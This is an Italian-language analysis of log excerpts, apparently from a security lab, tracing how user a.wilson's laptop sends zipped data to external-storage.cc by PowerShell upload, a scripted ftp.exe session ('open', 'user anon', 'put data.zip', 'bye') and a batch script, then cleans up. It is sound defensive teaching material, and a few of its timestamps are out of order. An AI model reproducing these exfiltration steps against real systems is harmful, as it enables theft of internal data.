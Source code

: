 


# Logs 
Network & Endpoint Logs

![ ](../image/7a.png)

# Ricognizione
```
└── 11:05:03 PROXY01 ... suspicious GET http://external-storage[.]cc/storage/credentials[.]txt (da 10.20.14.55)
```
Alle 11:05:03 il primo passo di ricognizione, un client interno (IP 10.20.14.55) contatta tramite Proxy01 il dominio sospetto external-storage.cc, chiedendo un file chiamato `credentials.txt`. Questo tipo di richiesta serve all’attaccante per verificare se il server C2 è attivo e pronto a ricevere dati. È come un “ping” iniziale per stabilire contatto.
Subito dopo inizia la vera esfiltrazione dei dati.
```
└── 11:05:25 powershell.exe (User a.wilson, parent=explorer.exe) ... PUT data.zip to external-storage.cc
     └── 11:05:27 FileCreate ... data.zip scritto (SHA256=A3B1C…)
     └── 11:05:35 TCP connect ... 198.51.100.12:80
     └── 11:05:37 PROXY01 POST ... data.zip 65 KB to external-storage.cc
     └── 11:05:52 cmd.exe cleanup ... cancella data.zip (child of powershell)
```
La prima tecnica avviene con PowerShell.. powershell.exe (PID 6120, utente CORP\a.wilson) prova a caricare un file data.zip verso external-storage.cc con metodo HTTP PUT. Due secondi dopo, Sysmon registra la creazione effettiva del file ZIP, contenente dati interni. Alle 11:05:35 il processo apre una connessione TCP verso `198.51.100.12:80`, e il proxy conferma un upload POST da 65 KB. Infine cmd.exe cancella data.zip
La seconda tecnica sfrutta l’utility di Windows ftp.exe. Alle 11:05:41 il processo parte con parametro -s:ftp_commands.txt, cioè un file di script con comandi predefiniti. Subito dopo richiede accesso a data.zip, e alle 11:05:49 apre una connessione sulla porta 21 (FTP) verso lo stesso dominio esterno. Questo conferma che il file è stato inviato tramite FTP automatizzato.

# Metodo di Esfiltrazione 2  (Client FTP)
```
└── 11:05:41 ftp.exe -s:ftp_commands.txt external-storage.cc (spawned post-cleanup)
     └── 11:05:42 / 11:05:45 ... handle + accesso a data.zip
     └── 11:05:49 TCP connect ... external-storage.cc:21
     └── 11:06:25 FileCreate ... ftp_commands.txt (istruzioni FTP)
     └── 11:06:33 cmd.exe ... scrive batch script FTP (parent=ftp.exe)
```
Alle 11:05:41 viene eseguito il process ftp.exe con il parametro `-s:ftp_commands.txt`. Questo significa che l’attaccante non digita i comandi a mano, ma usa un file di script che contiene tutte le istruzioni necessarie. Così l’FTP lavora in automatico e silenziosamente.
Subito dopo, tra le 11:05:42 e le 11:05:45, i log di sicurezza mostrano che ftp.exe ha richiesto un handle e ha letto il file data.zip. In pratica, sta aprendo il file per prepararlo al trasferimento. Poi Sysmon registra una connessione TCP verso external-storage.cc sulla porta 21, che è la porta standard del protocollo FTP. Questo conferma che la sessione FTP è stata effettivamente stabilita con il server esterno.
11:06:25, viene creato un nuovo file `ftp_commands.txt`, questa volta generato automaticamente. È uno script con comandi come open `external-storage.cc, user anon, put data.zip, e infine bye`. Questo tipo di file serve a dire al client FTP di aprire la connessione, accedere con utente anonimo e caricare il file senza interazione umana.
11:06:33, infatti, un nuovo cmd.exe scrive un secondo script FTP, stavolta con istruzioni per caricare anche `data2.zip`. Questo mostra come l’attaccante stia usando più tentativi, diversificando i metodi di esfiltrazione per aumentare le chance di successo.

# Metodo di Esfiltrazione 3 ( Automazione Batch / Second File)

```
└── 11:06:33 cmd.exe (batch automation) 
     └── 11:06:37 FileCreate ... data2.zip
     └── 11:06:41 TCP connect ... external-storage.cc:21
     └── 11:06:45 FileCreate ... data2.zip confermato (secondo metodo di esfiltrazione)
     └── 11:06:59 RegistryValueSet ... HKCU\Software\Corp\LastExfil = external-storage.cc (execution marker)
```
Alle 11:06:37 i log mostrano la creazione di un nuovo file chiamato data2.zip. l’attaccante non si limita a un solo file, ma prepara un ulteriore archivio da inviare al server esterno. Subito dopo, il processo cmd.exe stabilisce una connessione TCP verso il dominio `external-storage.cc ` utilizzando la porta 21, che è quella standard del protocollo FTP. Questo significa che il file appena creato è destinato ad essere trasferito tramite una sessione FTP.
Un elemento interessante è che poco prima, tra le 11:06:25 e le 11:06:33, viene creato un nuovo file `ftp_commands.txt`. Non si tratta di un file scritto manualmente, ma di uno script generato direttamente da cmd.exe usando comandi `echo`. Dentro questo script ci sono le istruzioni per aprire la connessione FTP, accedere con utente anonimo, caricare il file data2.zip e infine chiudere la sessione con un comando di uscita. In questo modo l’attaccante non deve digitare nulla, tutto avviene in automatico e silenziosamente.
Alle 11:06:45, i log segnalano nuovamente la creazione di data2.zip, probabilmente perché il file è stato copiato o riscritto durante il processo di upload. Questo mostra che l’attaccante ha predisposto un meccanismo ridondante per assicurarsi che il file fosse effettivamente pronto al trasferimento. 
Infine, Sysmon registra una modifica al Registro di Windows...la chiave `HKCU\Software\Corp\LastExfil` viene aggiornata con il valore `“2025-08-22T11:05:37 external-storage.cc”`. significa che l’attaccante tiene traccia delle esfiltrazioni completate, lasciando un piccolo segno interno che funge da checkpoint per futuri attacchi o per evitare duplicazioni.



```
└── 11:06:08 Security 4634 ... User a.wilson logoff
 └── 11:10:05 Security 4625 ... Tentativo fallito di logon (possible account lockout)
```
Alla fine delle attività di esfiltrazione, i log mostrano la chiusura della sessione dell’utente. Alle 11:06:08, l’account a.wilson effettua un logoff interattivo dal portatile WIN10-LAPTOP, segnalato come Security EventID 4634. indica che l’attaccante, o lo script usato, ha terminato la sessione probabilmente per nascondere meglio le tracce o per chiudere l’attività senza lasciare processi attivi in memoria. Poco dopo, alle 11:10:05, compare un tentativo di accesso fallito con lo stesso account, CORP\a.wilson, che genera un Security EventID 4625. Questo evento potrebbe indicare che l’account è stato bloccato dopo gli abusi.


